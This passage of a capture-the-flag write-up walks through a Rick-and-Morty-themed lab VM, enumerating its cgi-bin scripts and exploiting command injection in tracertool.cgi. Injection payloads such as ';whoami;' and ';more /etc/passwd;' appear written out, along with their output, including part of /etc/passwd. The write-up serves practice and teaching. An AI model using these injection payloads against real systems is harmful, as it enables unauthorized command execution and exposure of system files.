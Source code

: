 {% highlight text %}
They're Robots Morty! It's ok to shoot them! They're just Robots!

/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*
{% endhighlight %}

Root shell console?


{% highlight html %}
http://10.0.2.15/cgi-bin/root_shell.cgi
<html><head><title>Root Shell
</title></head>
--UNDER CONSTRUCTION--


</html>
{% endhighlight %}

That's bad, it would have been so much easier. Now let's check the **tracertool**.

{% highlight text %}
http://10.0.2.15/cgi-bin/tracertool.cgi
";whoami;
apache
{% endhighlight %}

It's a form that is vulnerable to **command injection**. But as you can see, someone replaced the **cat** command with the ASCII art of actuall cat.

{% highlight text%}
";cat tracertool.cgi
                      _
                     | \
                     | |
                     | |
 |\                   | |
/, ~\                / /
X     `-.....-------./ /
~-. ~  ~              |
    \             /    |
    \  /_     ___\   /
    | /\ ~~~~~   \  |
    | | \        || |
    | |\ \       || )
    (_/ (_/      ((_/
{% endhighlight %}

Fortunately there are more commands allowing us to view text such as **more**.
{% highlight text %}
";more /etc/passwd;
::::::::::::::
/etc/passwd
::::::::::::::
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt